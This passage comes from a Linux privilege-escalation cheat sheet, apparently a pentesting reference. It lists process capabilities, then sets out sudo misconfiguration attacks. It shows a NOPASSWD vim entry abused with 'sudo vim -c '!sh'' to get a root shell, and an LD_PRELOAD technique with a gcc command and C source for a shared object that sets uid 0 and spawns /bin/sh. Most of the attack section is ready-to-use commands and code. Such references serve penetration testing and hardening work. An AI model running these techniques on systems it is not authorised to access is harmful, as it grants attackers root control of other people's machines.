 | CAP_SETPCAP  | Helps to transferring and removal of current set to any PID |
| CAP_IPC_LOCK  | This helps to lock memory  |
| CAP_MAC_ADMIN  | Allow MAC configuration or state changes  |
| CAP_NET_RAW  | Use RAW and PACKET sockets |
| CAP_NET_BIND_SERVICE  | SERVICE Bind a socket to internet domain privileged ports  |

## SUDO

Tool: [Sudo Exploitation](https://github.com/TH3xACE/SUDO_KILLER)

### NOPASSWD

Sudo configuration might allow a user to execute some command with another user's privileges without knowing the password.

```bash
$ sudo -l

User demo may run the following commands on crashlab:
    (root) NOPASSWD: /usr/bin/vim
```

In this example the user `demo` can run `vim` as `root`, it is now trivial to get a shell by adding an ssh key into the root directory or by calling `sh`.

```bash
sudo vim -c '!sh'
sudo -u root vim -c '!sh'
```

### LD_PRELOAD and NOPASSWD

If `LD_PRELOAD` is explicitly defined in the sudoers file

```powershell
Defaults        env_keep += LD_PRELOAD
```

Compile the following shared object using the C code below with `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
void _init() {
 unsetenv("LD_PRELOAD");
 setgid(0);
 setuid(0);
 system("/bin/sh");
}
```
